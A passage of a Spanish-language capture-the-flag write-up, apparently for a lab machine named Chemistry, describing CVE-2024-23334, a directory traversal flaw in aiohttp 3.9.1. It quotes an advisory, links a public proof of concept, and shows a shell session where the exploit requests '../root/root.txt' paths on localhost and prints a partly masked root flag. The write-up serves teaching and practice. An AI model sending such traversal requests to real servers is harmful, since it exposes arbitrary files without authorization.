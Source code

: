 Realizando una búsqueda sobre posibles vulnerabilidades de la versión del servidor, nos encontramos con el siguiente `CVE-2024-23334`.

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-23334" %}

{% hint style="danger" %}
aiohttp es un framework cliente/servidor HTTP asíncrono para asyncio y Python. Cuando se utiliza aiohttp como servidor web y se configuran rutas estáticas, es necesario especificar la ruta raíz para los archivos estáticos. Además, la opción 'follow\_symlinks' se puede utilizar para determinar si se deben seguir enlaces simbólicos fuera del directorio raíz estático.

Cuando 'follow\_symlinks' se establece en Verdadero, no hay validación para verificar si la lectura de un archivo está dentro del directorio raíz. Esto puede generar vulnerabilidades de directory traversal, lo que resulta en acceso no autorizado a archivos arbitrarios en el sistema, incluso cuando no hay enlaces simbólicos presentes.&#x20;

Se recomiendan como mitigaciones deshabilitar follow\_symlinks y usar un proxy inverso. La versión 3.9.2 soluciona este problema.
{% endhint %}

También nos encontramos con el siguiente repositorio que nos muestra un PoC (Proof of concept) de la explotación de esta vulnerabilidad de Path Traversal. Realizando la explotación, verificamos que hemos logrado obtener directamente la flag de **root.txt**.

{% hint style="warning" %}
En nuestro caso, deberemos de modificar el exploit original para que utilice el puerto 8080 y no el que viene por defecto que es el 8081.
{% endhint %}

{% embed url="https://github.com/Arc4he/CVE-2024-23334-PoC/tree/main" %}

```bash
rosa@chemistry:~$ cat exploit.py | grep localhost
    url = "http://localhost:8080/assets/"
    
rosa@chemistry:~$ chmod +x exploit.py 

rosa@chemistry:~$ ./exploit.py 
Sending payloads...
Round 1: http://localhost:8080/assets/../root/root.txt
Round 2: http://localhost:8080/assets/../../root/root.txt
Round 3: http://localhost:8080/assets/../../../root/root.txt
[+] Success! File found.
HTTP/1.1 200 OK
Content-Type: text/plain
Etag: "181abcea3a49356f-21"
Last-Modified: Wed, 15 Jan 2025 02:32:01 GMT
Content-Length: 33
Accept-Ranges: bytes
Date: Wed, 15 Jan 2025 03:42:58 GMT
Server: Python/3.9 aiohttp/3.9.1

0c7f9ccbed3a657*****************
```
